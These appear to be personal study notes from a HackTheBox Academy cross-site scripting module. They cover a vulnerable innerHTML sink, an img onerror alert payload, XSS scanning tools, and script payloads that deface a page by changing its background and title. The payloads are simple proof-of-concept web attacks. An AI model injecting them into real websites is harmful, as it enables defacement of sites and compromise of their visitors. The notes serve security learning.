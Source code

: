 ```javascript
document.getElementById("todo").innerHTML = "<b>Next Task:</b> " + decodeURIComponent(task);
```
- innerhtml
- ==`<script>` wont work in innerhtml attribute==
```html
<img src="" onerror=alert(window.origin)>
```


# DISCOVERY

## Automated Discovery

-  [XSS Strike](https://github.com/s0md3v/XSStrike), [Brute XSS](https://github.com/rajeshmajumdar/BruteXSS), and [XSSer](https://github.com/epsylon/xsser)

## Manual Discovery
- inject any input field in HTML page
- may be in cookies & useragent if their values are displaed in Web page



# XSS ATTACKS

- possible attacks using vulnerable xss
## DEFACING
- changing website  look for anyone who visits 
- [NHS-DEFACED](https://www.bbc.com/news/technology-43812539) ![[Pasted image 20240608151133.png]]

- Three HTML elements are usually utilized to change the main look of a web page:

	- Background Color `document.body.style.background`
	- Background `document.body.background`
	- Page Title `document.title`
	- Page Text `DOM.innerHTML`



##### Changing Background

```html
<script>document.body.style.background = "#141d2b"</script>
```

##### Setting background image

```html
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
```

##### Changing Page Title

```html
<script>document.title = 'HackTheBox Academy'</script>
```
